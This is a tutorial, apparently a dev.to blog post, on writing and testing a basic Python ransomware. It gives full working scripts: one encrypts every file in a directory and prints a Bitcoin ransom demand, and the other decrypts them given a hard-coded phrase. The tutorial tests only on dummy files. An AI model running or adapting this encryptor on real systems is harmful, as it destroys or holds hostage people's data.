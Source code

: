 # Create ransomware script in python & test

Today, we're going to create our own ransomware.  
Aha, sounds interesting? It's not so complicated to build a simple one. We just need a system to test on where python is installed.  

> DISCLAIMER: [The article](https://dev.to/nitinkumar30/how-to-create-ransomware-script-in-python-test-28i0) I've written is purely for educational purpose only. My sole aim here is to teach how to create your ransomware script in python3.  

---

## What is a ransomware??

Ransomware is a malware designed to deny a user or organization access to files on their computer. By encrypting these files and demanding a ransom payment for the decryption key, cyberattackers place organizations in a position where paying the ransom is the easiest and cheapest way to regain access to their files.  

The malware first gains access to the device. Depending on the type of ransomware, either the entire operating system or individual files are encrypted. A ransom is then demanded from the victim.  

---

## Requirements:

1. A linux-based OS or [Windows Subsystem for Linux](https://dev.to/nitinkumar30/use-search-files-created-using-ubuntu-on-windows-1jid)  
2. Internet connection  

---

## Our approach !!

1. First, we'll need encrypt method which can encrypt the files  
2. Then, we need to decrypt mthod which can decrypt the encrypted files if ransom is provided  
3. We also need to keep key, which was used to encrypt the files & folders, so that decrypt the files, once ransom is fulfilled  

---

## Let's begin !!

Let's break this into small chunks:

1. Create necessary files & folders  
2. Write down our script for Encrypting the files  
3. Write down our script for Decrypting the files  
4. Giving the finishing touch to the project  

---

## 1. Create necessary files & folders

Step 1: As everything is configured for you, open the Ubuntu on Windows. If not yet, checkout my recent post on it [here](https://dev.to/nitinkumar30/use-search-files-created-using-ubuntu-on-windows-1jid)  
Step 2: Create a new folder using `mkdir ransomware` to create a directory named **ransomware**  
Step 3: Navigate to that directory using `cd ransomware`  
Step 4: Create some random files with below commands:  
        

```
        echo "This is a file" > file.txt
```

```
        echo "This is another file" > file2.txt
```
  

```
        echo "This is yet another 3rd file" > file3.txt
```
  

```
        echo "What is your name btw" > name.txt
```

Step 5: Now, create a directory with following command - `mkdir test`  
Step 6: You can check the contents of the files just created by running **cat** command - `cat file.txt` or `cat name.txt`  

---

## 2. Write down our script for Encrypting the files

Step 1: Now, we need to create our encrypting file to encrypt the required files, type the command - `nano voldemort.py`. This will create a python file with name voldemort & will open in vim editor.  
Step 2: Following is the python code for encryption part.  


```
#!/usr/bin/env python3

# importing necessary libraries
import os
from cryptography.fernet import Fernet

# Let's find some files

files = []

# checking all the files in current directory
for file in os.listdir():
        # ignoring the encrypting, decrypting & the key file
	if file == "voldemort.py" or file == "thekey.key" or file == "decrypt.py":
		continue
	if os.path.isfile(file):
		files.append(file)
# print all the files which is going to be infected with encryption
print(files)

# Generate the key used to encrypt the files
key = Fernet.generate_key()

# print(key)

# write the key into the file thekey.key
with open("thekey.key", "wb") as thekey:
	thekey.write(key)

# This is the main method which is encrypting all the files with the given key
for file in files:
	with open(file, "rb") as thefile:
		contents = thefile.read()
	contents_encrypted = Fernet(key).encrypt(contents)
	with open(file, "wb") as thefile:
		thefile.write(contents_encrypted)

# The message which will be shown to the users
print("All your files has been encrypted !!\nSend me 100 Bitcoins or I'll delete them in 24 hours.")
```

---

## 3. Write down our script for Decrypting the files  

Step 1: Now, we need to create our decrypting file. Type in the command - `nano decrypt.py`  
Step 2: Following is the python code for decryption part.  

```
#!/usr/bin/env python3

import os
from cryptography.fernet import Fernet

# Let's find some files

files = []

for file in os.listdir():
	if file == "voldemort.py" or file == "thekey.key" or file == "decrypt.py":
		continue
	if os.path.isfile(file):
		files.append(file)

print(files)


# key = Fernet.generate_key()

# print(key)

with open("thekey.key", "rb") as key:
	secretkey = key.read()

secretphrase = "coffee"

user_phrase = input("Enter the secret phrase to decrypt your files\n")
if user_phrase == secretphrase:
	for file in files:
		with open(file, "rb") as thefile:
			contents = thefile.read()
		contents_decrypted = Fernet(secretkey).decrypt(contents)
		with open(file, "wb") as thefile:
			thefile.write(contents_decrypted)

	print("Congrats, your files has been decrypted & safe now. Enjoy your coffee")
else:
	print("Sorry, wrong secret phrase. Send me more Bitcoins !!")

```

> Here, you'll observe that the encryption & decryption script are almost similar. Yes, they're. Actually, I've just copied the exact encryption file to create the decryption file & then done some minor changes to it.

---

## 4. Giving the finishing touch to the project  

Now is the time to test our ransomware is working or not.

Here, we'll check by first checking the files are having decrypted data or not.  
Then, we'll run the encrypt file & check the files are encrypted or not  
Then, we'll run the decrypt file & check the files are decrypted with original data or not.  

Step 1: Run the command - `cat file.txt` & then for remaining files  
Step 2: Run the encrypting file - `python3 voldemort.py`  
Step 3: Rerun step 1. You should see some random string is there in the contents of files  
Step 4: Now, run the decrypting file - `python3 decrypt.py`. Give secretphrase as **coffee** to pass the security check. You can change it in decrypt file.  
Step 5: Rerun step 1. You should see now, all the files will have original data of files.   

---

Note - Never run the encrypt file twice, else, you'll not be able to recover your files again. You can run encrypt file n number of times, but not the decrypt file.  

- This complete tutorial can be found in [NetworkChuck video](https://youtu.be/UtMMjXOlRQc?si=UeHz6Wyy4IohhAPt)  

---

Feel free to reach out to me via [LinkedIn](https://www.linkedin.com/in/nitin30kumar/), [Instagram](https://www.instagram.com/nitinkumar30.py/) or checkout my [Portfolio](https://nitinkr.me).

HAPPY HACKING !!!
